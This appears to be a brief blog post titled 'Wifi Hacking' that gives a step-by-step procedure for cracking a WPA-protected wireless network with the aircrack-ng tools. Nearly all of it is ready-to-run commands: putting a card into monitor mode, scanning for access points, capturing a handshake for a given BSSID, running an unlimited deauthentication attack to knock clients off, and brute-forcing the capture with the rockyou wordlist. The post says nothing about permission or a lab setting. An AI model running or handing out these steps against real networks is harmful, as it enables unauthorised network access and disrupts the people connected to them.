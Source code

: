 ```yaml
---
layout: post
title: Wifi Hacking
---
```


*Alfa-card is mandatory to search/scan for available Networks*

Steps:
**Connect alfa-card and check the Interfaces**

  ipconfig/iwconfig - This you will give the wlan0 interface

**Start Monitor Mode**

  airmon-ng start wlan0

**Verify its Monitor Mode**

  airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

  airodump-ng wlan0mon
  
  The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

  airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

	aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

**-w to save a file** 

**Now Stop the Monitormode and brute force the captured handshake**

	Run - airmon-ng stop wlan0mon

**Bruteforce the saved file with the wordlists to crack the password**

	aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
